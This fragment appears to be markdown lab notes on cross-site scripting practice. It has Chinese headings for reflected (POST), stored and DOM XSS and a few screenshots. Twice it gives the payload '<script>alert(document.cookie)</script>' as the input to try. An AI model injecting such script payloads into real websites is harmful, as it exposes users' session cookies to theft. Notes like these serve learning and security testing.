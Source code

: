 ![image-20250914161621561](images/image-20250914161621561.png)



## 反射性xss(post)

```
<script>alert(document.cookie)</script>
```

![image-20250914161822085](images/image-20250914161822085.png)







## 存储型xss

```
<script>alert(document.cookie)</script>
```

![image-20250914161912616](images/image-20250914161912616.png)





## DOM型xss
